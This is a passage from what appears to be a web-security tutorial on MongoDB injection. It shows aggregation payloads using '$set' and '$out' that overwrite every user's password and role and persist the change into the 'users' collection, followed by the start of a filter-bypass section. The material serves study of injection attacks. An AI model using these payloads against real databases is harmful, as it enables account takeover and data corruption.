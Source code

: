{% tab title="3. $set" %}
```json
  {"$set": {"role": "admin"}},
```

{% code title="Response" %}
```json
[
  {
    "_id": 1,
    "username": "admin",
    "password": "hacked"
  },
  {
    "_id": 2,
    "username": "user",
    "password": "hacked"
  }
]
```
{% endcode %}
{% endtab %}

{% tab title="4. $out" %}
```json
  {"$out": "users"}
```

Empty response, but the `users` collection is now saved as:

```json
[
  {
    "_id": 1,
    "username": "admin",
    "password": "hacked"
  },
  {
    "_id": 2,
    "username": "user",
    "password": "hacked"
  }
]
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
This can also be really useful in further attacks by inserting data some other system doesn't expect. Such as XSS, Insecure Deserialisation, or more injection attacks
{% endhint %}

## Filter Bypass

In most examples above, I used the `$ne` operator. But there are lots more ways to achieve an always-true result. For example:
